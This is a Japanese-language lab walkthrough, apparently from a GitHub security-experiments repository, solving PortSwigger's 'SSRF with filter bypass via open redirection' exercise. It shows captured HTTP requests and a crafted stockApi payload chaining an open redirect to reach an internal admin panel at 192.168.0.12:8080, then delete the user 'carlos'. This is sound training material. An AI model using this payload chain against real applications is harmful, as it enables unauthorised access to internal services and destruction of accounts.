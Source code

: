# オープン リダイレクトの脆弱性によるフィルター バイパスを伴う SSRF

以下のハッキングラボを実施します。  
https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

- 1. Burp Suite を起動し、Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. 商品ページに移動し、Next product を押します

```
GET /product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/2
Host: 0a2f007603834554815b5367008000a9.web-security-academy.net
Cookie: session=5WpPOKsYUdUAbo9OAo2OBOl5dcoKxE1h; session=qv3Qx5IIT3CWCfjPPhqrS51gGRZp3lCn
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a2f007603834554815b5367008000a9.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

- 4. 上記リクエストを書き換えて、メモしておきます

```
GET /product/nextProduct?currentProductId=2&path=/product/nextProduct?path=http://192.168.0.12:8080/admin HTTP/2
```

- 5. 商品の在庫チェックボタンを押下します
- 6. POST /product/stock リクエストを Send to repeat します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/9a4b522c-ac76-4700-9b8a-6242ada6bc51)

- 7. stockApi パラメータを以下のように書き換えて送信すると、ユーザー削除リンクの応答が得られます

```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

```html
<section>
  <h1>Users</h1>
  <div>
    <span>wiener - </span>
    <a href="/http://192.168.0.12:8080/admin/delete?username=wiener">Delete</a>
  </div>
  <div>
    <span>carlos - </span>
    <a href="/http://192.168.0.12:8080/admin/delete?username=carlos">Delete</a>
  </div>
</section>
```

- 8. stockApi パラメータをユーザ削除リンクに置き換えて再送すると、ユーザーの削除に成功します

```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
